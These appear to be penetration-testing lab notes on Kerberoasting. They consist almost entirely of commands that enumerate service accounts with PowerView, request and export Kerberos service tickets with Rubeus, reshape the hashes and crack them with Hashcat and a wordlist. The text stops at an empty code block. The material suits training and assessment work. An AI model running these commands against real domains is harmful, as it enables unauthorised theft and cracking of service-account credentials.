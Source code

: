 ```
python2.7 kirbi2john.py sqldev.kirbi
```
This will create a file called crack_file. We then must modify the file a bit to be able to use Hashcat against the hash.
```
sed 's/\$krb5tgs\$\(.\):\(.\)/\$krb5tgs\$23\$\\1\\$\2/' crack_file > sqldev_tgs_hashcat
```
Viewing the Prepared Hash
```
cat sqldev_tgs_hashcat
```
Cracking the Hash with Hashcat
```
-m 13100
```
## Automated / Tool Based Route
```
Import-Module .\PowerView.ps1
```
```
Get-DomainUser * -spn | select samaccountname
```
### Using PowerView to Target a Specific User
```
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
Exporting All Tickets to a CSV File
```
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
Viewing the Contents of the .CSV File
```
PS C:\htb> cat .\ilfreight_tgs.csv
```
hashcat to crack
```
hashcat -m 13100 ilfreight_spns /usr/share/wordlists/rockyou.txt
```
We can still note down another finding for Weak Kerberos Authentication Configuration (Kerberoasting) and move on.
## Using Rubeus
```
https://github.com/GhostPack/Rubeus
```
```
PS C:\htb> .\Rubeus.exe
```
request tickets for accounts with the admincount attribute set to 1,  specify the /nowrap flag so that the hash can be more easily copied down for offline cracking using Hashcat. 
Using the /nowrap Flag
```
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
```
PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /nowrap
```
### Running Rubeus to get only RC4 encryption type with flag /tgtdeleg RC4 (type 23) encrypted ticket ($krb5tgs$23$) or AES 128/256 encryption tickets ($krb5tgs$17$) or ($krb5tgs$18$)
#### Cracking the Ticket with Hashcat & rockyou.txt for RC4 type 23
```
```